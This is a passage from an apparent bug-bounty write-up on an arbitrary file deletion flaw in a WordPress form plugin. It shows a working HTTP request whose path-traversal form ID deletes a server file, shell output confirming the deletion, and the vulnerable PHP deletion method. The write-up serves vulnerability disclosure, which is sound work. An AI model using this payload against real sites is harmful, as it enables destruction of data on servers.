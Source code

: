Then, send the following POST request:

```http
POST /wp-admin/admin-ajax.php?action=bitforms_bulk_delete_form&_ajax_nonce=56951b1f2d HTTP/1.1
Host: localhost
Content-Type: text/plain;charset=UTF-8
Content-Length: 89
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7C2ed64b58bd1e6545e080831efa73208d7cd7a7d7db74f82d917bf1d084221f56; wp-settings-time-1=1724314921; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7Cc3ff3cd5203d9aa8bd10333b517737a257f01a675a5701cfae83a2855c027d65; PHPSESSID=btmj60280414pvpn1970aan8n7

{"formID":["../../../../../../../../../../../../../var/www/html/test.txt"]}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-1/images/Pasted%20image%2020240822193710.png)

```shell
root@9e2f4f189063:/var/www/html# ls -lah test.txt 
ls: cannot access 'test.txt': No such file or directory
```

Nice! It's gone!

#### Arbitrary File Deletion via Method `deleteAForm`

Next up, the final method of this arbitrary file deletion, `deleteAForm`:

```php
  public function deleteAForm($Request, $post)
  {
    if (isset($Request['id'])) {
      $formID = wp_unslash($Request['id']);
    } else {
      $formID = wp_unslash($post->id);
    }
    [...]
    $fileHandler = new FileHandler();
    if (file_exists(BITFORMS_UPLOAD_DIR . DIRECTORY_SEPARATOR . $formID)) {
      $fileHandler->rmrf(BITFORMS_UPLOAD_DIR . DIRECTORY_SEPARATOR . $formID);
    }
    if (file_exists(BITFORMS_UPLOAD_DIR . DIRECTORY_SEPARATOR . $formID)) {
      $fileHandler->rmrf(BITFORMS_UPLOAD_DIR . DIRECTORY_SEPARATOR . $formID);
    }
    if (file_exists(BITFORMS_CONTENT_DIR . DIRECTORY_SEPARATOR . 'form-styles' . DIRECTORY_SEPARATOR . 'bitform-' . $formID . '.css')) {
      unlink(BITFORMS_CONTENT_DIR . DIRECTORY_SEPARATOR . 'form-styles' . DIRECTORY_SEPARATOR . 'bitform-' . $formID . '.css');
    }
    if (file_exists(BITFORMS_CONTENT_DIR . DIRECTORY_SEPARATOR . 'form-styles' . DIRECTORY_SEPARATOR . 'bitform-layout-' . $formID . '.css')) {
      unlink(BITFORMS_CONTENT_DIR . DIRECTORY_SEPARATOR . 'form-styles' . DIRECTORY_SEPARATOR . 'bitform-layout-' . $formID . '.css');
    }
    if (file_exists(BITFORMS_CONTENT_DIR . DIRECTORY_SEPARATOR . 'form-styles' . DIRECTORY_SEPARATOR . 'bitform-custom-' . $formID . '.css')) {
      unlink(BITFORMS_CONTENT_DIR . DIRECTORY_SEPARATOR . 'form-styles' . DIRECTORY_SEPARATOR . 'bitform-custom-' . $formID . '.css');
    }
    if (file_exists(BITFORMS_CONTENT_DIR . DIRECTORY_SEPARATOR . 'form-scripts' . DIRECTORY_SEPARATOR . 'bitform-custom-' . $formID . '.js')) {
      unlink(BITFORMS_CONTENT_DIR . DIRECTORY_SEPARATOR . 'form-scripts' . DIRECTORY_SEPARATOR . 'bitform-custom-' . $formID . '.js');
    }
    if (file_exists(BITFORMS_CONTENT_DIR . DIRECTORY_SEPARATOR . 'form-styles' . DIRECTORY_SEPARATOR . 'bitform-conversational-' . $formID . '.css')) {
```